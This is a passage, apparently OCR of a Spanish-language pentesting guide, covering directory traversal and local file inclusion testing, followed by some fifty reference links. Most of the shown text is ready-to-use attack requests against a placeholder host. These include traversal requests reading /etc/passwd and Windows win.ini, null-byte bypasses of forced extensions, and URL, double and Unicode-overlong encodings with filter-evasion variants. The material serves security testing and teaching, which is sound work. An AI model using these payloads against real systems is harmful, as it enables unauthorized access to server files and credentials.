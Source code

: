 ### Configuración Inicial

Usar Burp Suite para interceptar requests con parámetros de archivo. Analizar respuestas y errores para determinar estructura del sistema.

### Casos de Prueba Básicos

**Caso 1: Directory Traversal simple**

```http
# Request normal
GET /download.php?file=documento.pdf HTTP/1.1
Host: victima.com

# Traversal básico Linux
GET /download.php?file=../../../../etc/passwd HTTP/1.1
Host: victima.com

# Traversal básico Windows  
GET /download.php?file=..\..\..\..\Windows\win.ini HTTP/1.1
Host: victima.com
```

**Caso 2: Bypass de extensión forzada**[^4]

```http
# Si aplicación añade .php automáticamente
GET /include.php?page=../../../../etc/passwd%00 HTTP/1.1
Host: victima.com

# Null byte para truncar extensión
GET /view.php?template=../../config/database%00.php HTTP/1.1
Host: victima.com
```

### Técnicas de Bypass Avanzadas

**Encoding múltiple:**[^12]

```http
# URL encoding simple
file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Doble encoding
file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Unicode overlong
file=%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
```

**Bypass de filtros recursivos:**

```http
# Si filtro elimina ../
file=....//....//....//etc/passwd

# Si filtro no es recursivo
file=..././..././..././etc/passwd
```


[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/